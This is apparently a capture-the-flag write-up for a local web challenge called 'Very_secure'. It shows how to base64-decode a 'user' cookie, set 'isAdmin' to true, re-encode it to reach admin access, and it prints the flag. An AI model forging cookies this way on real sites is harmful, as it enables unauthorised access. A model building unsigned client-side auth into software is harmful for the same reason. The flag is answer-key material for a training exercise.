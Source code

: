 # Writhup - Very_secure

## Description
only admin should see what s hidding and get the flag otherwise you r note allowed 

## Setup Instructions
1. Build the Docker container:
   ```sh
   chmod +x build.sh
   ./build.sh
   ```
2. The application will run on `http://localhost:5000`

## Exploiting the Vulnerability
1. Capture the `user` cookie from the request headers.
2. Decode the Base64 value:
   ```sh
   echo 'eyJ1c2VyTmFtZSI6ICJhbm9ueW1vdXMiLCAiaXNBZG1pbiI6IGZhbHNlfQ==' | base64 -d
   ```
3. Modify the JSON:
   ```json
   {
      "userName": "admin",
      "isAdmin": true
   }
   ```
4. Encode the modified JSON back to Base64:
   ```sh
   echo -n '{"userName": "admin", "isAdmin": true}' | base64
   ```
5. Replace the `user` cookie with the new value and refresh the page.
6. You should now see the flag!
```
NHD{be_cautious_when_serializing_and_deserializing}
```